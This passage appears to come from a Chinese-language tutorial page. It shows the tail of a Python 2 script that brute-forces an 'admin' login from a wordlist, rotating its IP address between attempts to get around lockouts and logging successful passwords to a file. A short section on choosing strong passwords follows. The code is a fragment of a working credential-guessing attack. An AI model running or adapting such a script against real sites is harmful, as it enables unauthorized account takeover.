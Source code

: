     		if 0 == ret_three_time:
    			log_handle.write(out_str);
    
    		response.close()
    
    		print out_str
    
    		return ret_three_time;
    
    	except urllib2.HTTPError, e:  
    		print "Error Code:", e.code  
    	except urllib2.URLError, e:  
    		print "Error Reason:", e.reason
    
    	pass;
    
    
    def main():
    	worldlist = read_dic_from_file('wordlist2.txt');  #字典文件
    	fd_log = open('./log.txt', 'a')				    
    	fd_other = open('./record.txt', 'a')			  #破解成功后的内容写入文件
    
    	no_use_ip = [];
    	c_ip = 0;
    	for one_password in worldlist:
    		pass_str = one_password;
    		
    		while 1:
    			c_ip = gen_new_ip_num(c_ip);#生成一个新的ip
    			change_my_ip(c_ip);			#切换ip
    			get_some_info();			#获取需要的参数
    			r3t = check_password('admin' , pass_str , fd_log,fd_other,c_ip);#发送post,验证密码
    			if 1 == r3t:
    				no_use_ip.append(c_ip);
    				if len(no_use_ip) > 250: #ip用完了？
    					time.sleep(60);      #休息1分钟后，重试
    					no_use_ip = [];      #清空ip地址
    				continue;
    			else:
    				break;
    		pass;
    	print 'over '
    	pass;
    
    main();




## 防止暴力破解
暴力破解，只是模拟了人的操作，如果说想要预防暴力破解，最好的方式，就是加强自己密码的复杂度。
1、不要使用弱密码。
2、密码越长越好。
3、密码最好要有大小写数字配合。
4、查一查自己的密码是不是在top1000中。
